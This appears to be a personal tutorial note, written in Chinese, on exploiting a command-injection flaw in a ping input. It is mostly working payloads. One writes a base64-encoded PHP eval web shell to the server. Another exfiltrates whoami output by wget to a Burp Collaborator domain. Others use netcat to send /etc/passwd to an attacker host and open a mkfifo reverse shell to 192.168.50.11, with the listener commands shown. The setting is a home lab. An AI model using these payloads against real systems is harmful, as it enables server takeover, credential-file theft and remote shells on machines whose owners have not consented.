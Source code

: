 # Command injection


有的场景会让用户自己输入命令或者命令的一部分（作为拼接）


例：
让用户输入IP 然后ping：


![[Pasted image 20211205182912.png]]


## 向服务器写入一句话：

```shell
tt || echo "PD9waHAgcGhwaW5mbygpO2V2YWwoJF9QT1NUWydjbWQnXSk/Pg=="|base64 -d >shell.php 

```



## 得到命令信息 
例：**whoami info**


开启burp collaborator服务器：

![[Pasted image 20211205183418.png]]

输入 
```shell
tt || wget gzjjnt7y145vfimxqc771t4z2q8iw7.burpcollaborator.net?id=$(whoami)

```



![[Pasted image 20211205183603.png]]

得到whoami信息：

![[Pasted image 20211205183618.png]]


## 利用netcat获得受害者文件并写入远程服务器


netcat在kali上开启简单远程服务器

```shell
nc -lp 9999 >./workspace/passwd.txt
```

kali的ip是192.168.50.11 。 监听192.168.50.11:9999 并把接收到的文件写入 passwd.txt


受害者客户端：
![[Pasted image 20211205185841.png]]

命令： 

```shell
tt || nc 192.168.50.11 9999 </etc/passwd
```

把受害机的 ```/etc/passwd``` 发送到 9999端口

passwd.txt:
![[Pasted image 20211205221057.png]]




## 命令执行漏洞利用反弹shell

反弹shell：受害机主动连接外部远程服务器，防火墙不会拦截


远程机监听：

```shell

nc -lvp 8080

```
![[Pasted image 20211206104201.png]]

受害机：

```shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.50.11 8080 > /tmp/f


```


![[Pasted image 20211206104226.png]]

得到受害机shell
![[Pasted image 20211206104242.png]]





